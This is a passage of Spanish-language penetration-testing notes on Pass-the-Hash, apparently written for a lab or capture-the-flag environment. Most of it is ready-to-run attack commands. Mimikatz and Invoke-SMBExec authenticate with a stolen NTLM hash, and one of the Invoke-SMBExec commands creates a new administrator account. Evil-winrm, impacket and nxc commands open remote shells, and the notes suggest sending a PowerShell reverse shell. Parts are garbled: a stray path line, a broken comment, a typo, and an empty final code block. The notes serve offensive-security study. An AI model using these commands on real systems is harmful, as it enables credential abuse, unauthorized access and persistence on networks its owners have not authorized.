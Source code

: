 
## Pass-the-Hash (PtH)
Necesita (por defecto están habilitadas estas opciones):
- Conexión SMB
- Función compartir archivos e impresoras habilitada
- No funcionará si NTLM está deshabilitado y el equipo solo permite autenticación kerberos (por defecto está habilitada autenticación NTLM en Windows, excepto algunos Windows Server 2016+). Podemos comprobar si está habilitado con 
	```powershell
	Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Name LmCompatibilityLevel
	# 0-2 → NTLM habilitado
	# 3 → NTLMv2 habilitado, pero NTLMv1 bloqueado
	# 4-5 → NTLM bloqueado, solo Kerberos
	```
### Windows
#### Con `mimikatz`
```powershell
#privilege::debug
sekurlsa::pth /user:USERNAME /domain:DOMAIN /ntlm:NTLM_HASH /run:cmd.exe
	\Desktop
# Estaremos autenticados como el usuario en el e: 
type \\DC01\C$\Users\Administrator\Desktop\flag.txt
```

#### Con `Invoke-TheHash`
 Ejecuta comandos en un sistema remoto a través de protocolos como SMB (`Invoke-SMBExec`) o WMI (`Invoke-WMIExec`). Se puede poner como `target` la dirección IP o el nombre del dispositivo
```powershell
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1 
PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```
En la práctica, como comando se puede envíar una revshell en powershell de [revshells](https://www.revshells.com/) (`PowerShell #3 Base64` )
### Desde pwnbox

#### Con `evil-winrm`
```bash
evil-winrm -i $target -u Administrator -H <NTLM_hash>
```

#### Con `impacket-psexec` - SMB
Por la naturaleza de psexec se obtiene una shell con privilegios de `system`
```bash
impacket-psexec admcinistrator@$target -hashes :<NTLM_hash>
```
#### Con `impacket-wmiexec` - SMB
Se ejecuta una shell con privilegios del usuario que la lanza
```bash
impacket-wmiexec administrator@$target -hashes :<NTLM_hash>
```
#### Con `nxc`
```bash
nxc smb $target -u Administrator -H <NTLM_hash> -x "whoami"
```
#### Con smbclient
```bash
```